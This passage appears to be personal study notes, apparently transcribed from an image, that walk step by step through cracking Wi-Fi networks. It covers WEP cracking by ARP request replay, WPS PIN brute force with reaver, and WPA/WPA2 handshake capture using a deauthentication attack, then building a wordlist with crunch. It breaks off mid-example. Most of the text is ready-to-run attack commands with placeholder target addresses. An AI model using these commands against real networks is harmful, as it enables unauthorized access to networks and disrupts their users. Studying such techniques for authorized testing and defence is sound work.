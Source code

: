 1. First do target packet sniffing

   airodump-ng --bssid target_network_macaddress --channel channel_no --write arpreplay wlan0

2. Split screen and run

   aireplay-ng --fakeauth 0 -a target_mac -h wireless_adap_mac(: seperated) wlan0

   the mac address of wireless adaptor is the first 12 digits of ==unspec== in monitor mode.

Now we can start injecting packets to the traffic to force the AP to create new packets with new IVs, allowing us to crack the WEP network. We use ==ARP Request Replay==

3. Another split screen

   aireplay-ng --arpreplay -b target_mac -h wireless_adap_mac(: seperated) wlan0

### Gaining Access - WPA/WPA2 Cracking

-- If ==WPS== feature is enabled in the target network, then it is easy to crack it (bcz authentication can be done using just an 8 digit pin), unless the target uses ==PBC== bcz it refuse all the pins unless the button is enabled in the router.
To see if WPS is enabled

    wash --interface wlan0

To see if PBC is there, try the attack and see if it works

1.  First associate with the target network

        aireplay-ng --fakeauth 30 -a target_mac -h wireless_adap_mac(: seperated)  wlan0

    This cant be executed until the 8 digit pin is found through brute force. So we split screen

        reaver --bssid target_network_mac --channel ch_no --interface wlan0 -vvv --no-associate

    Once we enter the second command, then we enter the first command which tells the router not to ignore us so that ==reaver== can crack the pin and password of the network.

-- If WPS is not enabled or PBC, then we will have to crack WPA/WPA2 ecryption,

Only packets that can aid with the cracking process are the ==handshake== packets (these are 4 packets sent whaen a ==client connects== to the network).

1. Run airodump ng

   airodump-ng --bssid target_network_macaddress --channel channel_no --write wpa_handshake wlan0

2. Instead of waiting for a new device to connect to the network, we can use a ==deauthentication attack==

   aireplay-ng --deauth 4 -a target_network_mac -c client_mac wlan0

The handshake contains data that can be used to check if a key is valid or not.
We have to create a ==wordlist==, which is a textfile that contains large no. of passwords. we check them with the handshakes whether any password is valid or not.
We can use ==crunch== to create a wordlist

    crunch [min] [max] [characters]-t [pattern] -o [filename]

eg:-
